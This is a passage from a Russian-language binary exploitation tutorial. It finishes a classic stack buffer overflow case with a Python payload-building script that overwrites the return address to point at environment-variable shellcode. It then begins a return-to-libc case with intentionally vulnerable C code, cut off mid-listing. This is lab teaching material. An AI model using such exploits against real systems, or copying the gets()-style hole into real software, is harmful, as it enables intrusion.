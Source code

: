 После чего узнаем адрес `SHELLCODE`.

```
$ ./getenvaddr SHELLCODE classic
SHELLCODE will be at 0x7fffffffe3f8
```

Подкорректируем немного наш скрипт, и у нас все готово для эксплуатации!

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

# Использование: python pwn-classic.py

import struct


def little_endian(num):
	"""Упаковка адреса в формат little-endian (x64)."""
	return struct.pack('<Q', num)


junk = 'A' * 120
ret_addr = little_endian(0x7fffffffe3f8)

payload = junk + ret_addr

with open('payload.bin', 'wb') as f:
	f.write(payload)
```

[![classic-pwn.png]({{ "/img/pwn-kingdom/bitterman/classic-pwn.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/classic-pwn.png" | relative_url }})
{: .center-image}

Обрати внимание на использование конструкции `cat payload.bin; echo; cat` с идущей за ней конвейерной передачей для того, чтобы поток ввода `stdin` оставался открытым после отправки пейлоада, и мы смогли вводить команды.

Разобрались. Перейдем к следующему кейсу.

## Кейс № 2. Return-to-libc

Уязвимый исходный код.

```c
/**
 * Buffer Overflow (64-bit). Case 2: Return-to-libc
 * Compile: gcc -g -fno-stack-protector -no-pie -o ret2libc ret2libc.c
 * ASLR: Off (sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space')
 */

#include <stdio.h>

void rop_gadgets() {
	asm("pop %rdi; ret");
	asm("nop; ret");
	asm("ret");
}

void vuln() {
	char buffer[100];
	gets(buffer);
}

int main(int argc, char* argv[]) {
```

[//]: # (2019-10-23)